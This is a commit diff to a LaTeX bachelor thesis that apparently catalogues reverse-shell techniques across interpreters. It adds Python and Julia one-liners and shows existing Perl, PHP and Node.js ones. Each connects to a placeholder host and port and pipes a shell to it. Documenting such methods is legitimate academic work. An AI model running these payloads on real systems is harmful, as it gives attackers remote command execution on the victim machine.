

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter01.tex): two parts of pages 24 and 25 of 33, joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add python, julia

```diff
--- a/thesis/chapters/chapter01.tex
+++ b/thesis/chapters/chapter01.tex
@@ -122,16 +122,21 @@
 
 \section{Programming languages interpreters}
 
-\subsection{Python}
+\subsection{Python (\texttt{python/python3})}
 
-\subsection{Perl}
+\begin{cmdline}{bash}{|}{python}{}
+python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("|\host|",|\port|)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["|\shell|"]);'
+\end{cmdline}
+\TODO{dependencies}
+
+\subsection{Perl (\texttt{perl})}
 
 \begin{cmdline}{bash}{|}{perl}{}
 perl -e 'use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in(|\port|,inet_aton("|\host|")))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("|\shell|");};'
 \end{cmdline}
 \TODO{dependencies}
 
-\subsection{PHP}
+\subsection{PHP (\texttt{php})}
 
 \begin{cmdline}{bash}{|}{php}{}
 php -r '$sock=fsockopen("|\host|",|\port|); exec("|\shell| <&3 >&3 2>&3");'
@@ -159,6 +164,14 @@
 node -e 'shell = require("child_process").spawn("|\shell|"); require("net").connect(|\port|, "|\host|", function () { this.pipe(shell.stdin); shell.stdout.pipe(this); shell.stderr.pipe(this); })'
 \end{cmdline}
 
+\subsection{Julia (\texttt{julia})}
+
+\begin{cmdline}{bash}{|}{julia}{}
+julia -e 'using Sockets; sock=connect("|\host|", parse(Int64,"|\port|")); while true; cmd = readline(sock); if !isempty(cmd); cmd = split(cmd); ioo = IOBuffer(); ioe = IOBuffer(); run(pipeline(`$cmd`, stdout=ioo, stderr=ioe)); write(sock, String(take!(ioo)) * String(take!(ioe))); end; end;'
+\end{cmdline}
+%$
+\TODO{dependencies}
+
 \section{Other tools}
 
 \subsection{Socat (\texttt{socat})}
```
Also changed, not shown: reverseshell/methodlist.txt (+2 -0 lines), reverseshell/Makefile.
